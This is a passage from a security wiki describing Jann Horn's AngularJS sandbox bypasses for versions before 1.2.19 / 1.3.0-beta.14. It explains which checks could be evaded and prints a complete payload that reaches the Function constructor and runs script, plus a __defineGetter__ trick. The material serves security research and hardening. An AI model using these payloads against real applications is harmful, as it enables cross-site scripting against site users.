 Mitigation advice: Don't write unsanitized comments into the DOM. Note the `-->` will not be encoded if used with `document.createComment()` and actually terminate the comment in the DOM.

# Sandbox Bypasses #

## AngularJS < 1.2.19 / < 1.3.0-beta.14 ##

The following lines describe two AngularJS sandbox bypasses discovered by Jann Horn - who also contributed this section to the wiki:

In AngularJS before 1.2.19 / 1.3.0-beta.14:

  * you can obtain a reference to `Object` with `({})["constructor"]` (because although the name `constructor` is blacklisted, only the `Function` object was considered dangerous)
    * all the interesting methods of `Object` are accessible
    * fixed now
  * you can obtain a reference to `Function.prototype` with `''.sub.__proto__`
    * fixed now, `__proto__` is blacklisted as member name (also for subscript notation)
  * the result of the subscript operator is checked, but the result of the dot operator isn't (for performance reasons, I think)
    * the dot operator checks that the member name isn't `constructor` though
    * still the same
  * on function calls, the `this` argument, the callee and (after execution) the result are checked, but the arguments aren't
    * still the same
  * there are no restrictions on the usage of `call` (and `apply` and `bind`)
    * fixed now (but you can still get reduced variants of `call`/`apply` using methods from the `Array` prototype)
  * you can use `__defineGetter__` and friends
    * fixed now, they're blacklisted as member names and invoking them is forbidden

This means that you can construct a bypass using these parts:
  * bypass member name check and subscript/call result check using `({})["constructor"].getOwnPropertyDescriptor(''.sub.__proto__, "constructor").value`
    * gives you `Function.prototype.constructor`, which is `Function`
  * bypass function call checks: invoke `thisarg.func(args...)` using `''.sub.call.call(function, thisarg, args...)`
    * now you can also call `Function`!

And this is the complete bypass code:

```
    ''.sub.call.call(
          ({})["constructor"].getOwnPropertyDescriptor(''.sub.__proto__, "constructor").value,
          null,
          "alert(1)"
    )()
```

Also, you can use `{}.__defineGetter__.call(null, 'alert', (0).valueOf.bind(0))` to invoke `__defineGetter__` on `null`, which
causes it to operate on the `window` object instead. Overwriting `window.alert` with a getter that returns zero makes `obj.alert`
falsy, meaning that AngularJS won't recognize (and block) attempts to access it anymore.
